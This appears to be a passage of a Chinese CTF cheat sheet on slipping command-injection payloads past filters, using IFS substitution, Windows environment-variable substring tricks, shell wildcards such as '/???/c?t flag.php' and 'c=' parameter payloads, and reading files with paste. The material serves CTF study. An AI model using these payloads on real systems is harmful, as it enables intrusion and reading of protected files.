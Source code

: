 ```````
(
)
<
>
_
+
-
=
\
/
]
[
{
}
;
:
'
"
|
?
.
,
{IFS}
$IFS$9
%path:~10,1%
%homepath:~10,1%
%userprofile:~12,1%
%programfiles:~10,1%
%processor_identifier:~3,1%
%processor_identifier:~7,1%
%commonprogramw6432:~10,1%
%commonprogramfiles(x86):~10,1%
%commonprogramfiles:~10,1%
%commonprogramfiles:~10,-18%
%commonprogramfiles:~23,1%
%commonprogramfiles:~23,-5%
%fps_browser_app_profile_string:~8,1%
```
## 通配符
```shell
* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符， e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
```
举例
```shell
??? 在linux 里面可以进行代替字母
 /???/c?t flag.php
*在linux 里面可以进行模糊匹配 ,* 进行模糊匹配 php
 cat flag.*

利用通配符绕过限制，并且寻找唯一定向命令
 ---> 匹配后是 :?c=/bin/base64 flag.php
/???/???/????2 ???????? ---> 匹配后是 :?c=/usr/bin/bzip2 flag.php 会生成一个
flag.php.bz2 的文件
```
## 读取文件
如果前面各种Linux查看文件的命令都被拦截了我们可以使用几个函数来读取文件内容
### paste
paste 命令用于将多个文件的内容按列合并到一起。该命令从每个输入文件中读取一行文本，并在输出中使用制表符分隔它们。
```shell
paste shell.php
```````